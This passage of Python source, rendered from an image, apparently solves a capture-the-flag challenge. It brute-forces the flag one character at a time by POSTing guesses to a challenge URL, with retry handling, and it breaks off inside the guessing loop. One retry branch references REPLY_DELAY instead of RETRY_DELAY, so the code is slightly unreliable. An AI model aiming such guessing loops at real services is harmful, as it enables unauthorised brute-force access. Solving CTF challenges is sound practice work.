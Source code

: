 ```python
# For CTF flags, lowercase letters and digits are very common.
# Sometimes uppercase letters or special characters are included.
ALPHABET = string.ascii_lowercase + string.digits

# --- Helper Function for Making Requests ---
def make_post_request(guess_payload: str) -> dict | None:
    """
    Sends a POST request to the challenge URL with the given guess payload.
    Handles potential network errors and retries.

    Args:
        guess_payload (str): The full flag guess string (e.g., "flag{...}").

    Returns:
        dict | None: The JSON response from the server if successful, None otherwise.
    """
    headers = {"Content-Type": "application/json"};data = {"guess": guess_payload}
    for attempt in range(MAX_RETRIES):
        try:
            response = requests.post(URL, headers=headers, json=data, timeout=10)
            response.raise_for_status() # Raise an HTTPError for bad responses (4xx or 5xx)
            return response.json()
        except requests.exceptions.HTTPError as e:
            print(f"HTTP error for guess '{guess_payload}': {e}")
            if attempt < MAX_RETRIES - 1:
                print(f"Retrying in {RETRY_DELAY} seconds...")
                time.sleep(RETRY_DELAY)
            else: print("Max retries reached. Giving up on this request.")
        except requests.exceptions.ConnectionError as e:
            print(f"Connection error for guess '{guess_payload}': {e}")
            if attempt < MAX_RETRIES - 1:
                print(f"Retrying in {RETRY_DELAY} seconds...")
                time.sleep(RETRY_DELAY)
            else: print("Max retries reached. Giving up on this request.")
        except requests.exceptions.Timeout as e:
            print(f"Timeout error for guess '{guess_payload}': {e}")
            if attempt < MAX_RETRIES - 1:
                print(f"Retrying in {RETRY_DELAY} seconds...");time.sleep(REPLY_DELAY)
            else:print("Max retries reached. Giving up on this request.")
        except Exception as e:
            print(f"An unexpected error occurred for guess '{guess_payload}': {e}");break # For unexpected errors, break immediately

    return None

# --- Main Automation Logic ---
def solve_challenge():
    """
    Automates the process of guessing the flag character by character.
    """
    print(f"Starting flag guessing for {URL}")
    # Initialize our knowledge of the flag. Use a placeholder for unknown characters.
    # For example, '_' or '?' are common. We'll use a dash '-' here.
    current_flag_content = ['-'] * FLAG_LENGTH_INSIDE_BRACES
    flag_entry = []
    # Loop through each position of the flag content
    for i in range(FLAG_LENGTH_INSIDE_BRACES):
        print(f"\nAttempting to find character at position {i+1}/{FLAG_LENGTH_INSIDE_BRACES}")
        found_char_for_position = False
        # Iterate through our alphabet for the current position
        for char_to_try in ALPHABET:
            test_guess_content = list(current_flag_content) # Create a mutable copy
            test_guess_content[i] = char_to_try
```